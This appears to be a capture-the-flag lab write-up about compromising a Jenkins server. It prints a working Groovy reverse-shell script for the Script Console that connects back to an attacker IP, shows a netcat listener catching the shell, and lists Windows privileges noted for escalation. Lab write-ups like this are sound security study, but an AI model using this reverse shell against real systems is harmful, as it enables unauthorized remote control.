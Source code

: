 
# Foothold
- gain shell via exploit
- Found a `Script Console` we can potential exploit and get a reverse shell. After [researching](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), found [`revshell.groovy`](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) which can give us a reverse shell into Jenkins:
```
String host="10.10.14.6";

int port=4444;

String cmd="cmd.exe";

Process p=new 
ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream 
pi=p.getInputStream()
pe=p.getErrorStream()
si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();
Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Caught a shell
```
┌──(root㉿kali)-[~/Downloads]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.63] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```


# PrivEsc
- escalate from user to root
- We have `SeImpersonatePrivilege` enabled on the user `jeeves\kohsuke`... Let's see if we can impersonate
```
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
